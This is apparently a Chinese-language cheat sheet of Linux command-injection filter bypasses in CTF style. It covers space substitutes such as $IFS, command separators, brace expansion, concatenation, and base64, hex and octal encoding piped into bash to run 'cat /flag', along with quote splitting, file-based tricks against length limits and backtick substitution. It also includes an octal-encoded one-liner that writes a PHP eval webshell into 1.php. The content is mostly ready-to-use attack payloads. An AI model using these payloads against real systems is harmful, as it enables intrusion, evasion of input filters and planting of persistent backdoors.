 # linux常见绕过姿势
### 空格过滤

    < 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS、

### 命令分隔符

    linux中：%0a(换行) 、%0d（回车） 、; 、& 、| 、&&、||
    
    windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符，SUB 在文本文件中表示文件结果）

### 花括号

    {cat,flag} 逗号代替空格

### 黑名单绕过

拼接绕过:$a=l;$b=s;$a$b

编码绕过
base64：
echo MTIzCg==|base64 -d 其将会打印123
echo "Y2F0IC9mbGFn"|base64-d|bash ==>cat /flag

hex:
echo "636174202f666c6167" | xxd -r -p|bash ==>cat /flag

oct：
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php

单引号和双引号绕过
比如：ca' 't flag 或ca" "t flag
反斜杠绕过
比如：ca\t fl\ag
### 长度限制

长度限制可以用文件构造的方式来绕过。
linux下可以用 1>a创建文件名为a的空文件
ls -t>test则会将目录按时间排序后写进test文件中
sh命令可以从一个文件中读取命令来执行
### 内联执行

命令替代，大部分Unix shell以及编程语言如Perl、PHP以及Ruby等都以成对的重音符(反引号)作指令替代，意思是以某一个指令的输出结果作为另一个指令的输入项。类似的还有$(command).

    cat$IFS`ls`
    
    cat$IFS$(ls)